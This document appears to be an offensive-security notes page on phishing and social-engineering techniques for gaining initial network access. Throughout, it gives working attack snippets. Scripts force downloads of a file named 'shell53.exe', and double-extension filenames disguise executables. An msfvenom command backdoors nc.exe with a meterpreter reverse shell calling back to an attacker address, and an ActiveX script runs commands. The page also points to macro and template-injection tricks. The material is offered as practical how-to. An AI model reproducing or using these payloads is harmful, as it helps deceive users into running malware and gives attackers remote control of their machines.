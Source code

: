 # Updates:

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 09/2020 | DOCX macro execution - remote template injection | Executing macros from a docx with remote template injection| docs, remote template injection | [docx remote template injection](#docx-remote-template-injection) |

# Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

### Embed malicious code in legitimate file

It is however very likely that this will be picked up by a antivirus.

```
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

## Autodownload a malicious javascript-file

Just like we can download an exe for a user to can also make that user download a javascript file. Since javascript files can execute commands on windows.

```
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

```
http://evilsite.com/file.js
```

This code can be modified to greate a wget-script and then download and execute a script.


## Phishing

The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:


```
setoolkit
```

## docx remote template injection

[Executing macros from a docx with remote template injection](executing-macros-from-a-docx-with-remote-template-injection.md)

## Spear phishing

## Word/excel makros

An explanation of how to createa malicious makro-wordfile.

https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/

## Embed a executable inside a PowerPoint

You can embed executables inside PowerPoint presentations and then have them execute about animations. 

## Reference:
https://www.youtube.com/watch?v=NTdthBQYa1k
